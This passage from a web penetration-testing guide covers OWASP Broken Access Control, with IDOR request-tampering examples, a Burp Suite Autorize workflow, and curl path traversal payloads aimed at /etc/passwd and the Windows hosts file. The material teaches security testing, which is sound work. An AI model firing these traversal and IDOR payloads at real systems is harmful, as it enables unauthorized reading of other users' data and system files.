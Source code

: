 ```bash
retire --js --jspath http://target.com
```

---

## OWASP Top 10 Vulnerabilities

### A01:2021 - Broken Access Control

**Concept:** Users can access resources or perform actions they shouldn't be authorized for.

**Common vulnerabilities:**
- Insecure Direct Object Reference (IDOR)
- Path traversal
- Missing function-level access control
- Horizontal/vertical privilege escalation

**Testing methodology:**

```bash
# 1. IDOR testing - Modify user IDs
# Original request:
GET /api/user/123/profile HTTP/1.1
Cookie: session=user123_session

# Modified request (try accessing user 124):
GET /api/user/124/profile HTTP/1.1
Cookie: session=user123_session

# Expected: 403 Forbidden or 401 Unauthorized
# Vulnerable: 200 OK with user 124's data
```

**Burp Suite - Autorize extension workflow:**

1. Install Autorize extension
2. Configure low-privilege user session token
3. Browse application as high-privilege user
4. Autorize automatically replays requests with low-privilege token
5. Review results for unauthorized access

**Path traversal testing:**

```bash
# Directory traversal payloads
curl "http://target.com/download?file=../../../../etc/passwd"
curl "http://target.com/download?file=..%2f..%2f..%2f..%2fetc%2fpasswd"
curl "http://target.com/download?file=....//....//....//etc/passwd"

# Windows paths
curl "http://target.com/download?file=..\..\..\..\windows\system32\drivers\etc\hosts"

# Null byte injection (older PHP versions)
curl "http://target.com/download?file=../../../../etc/passwd%00.jpg"
```
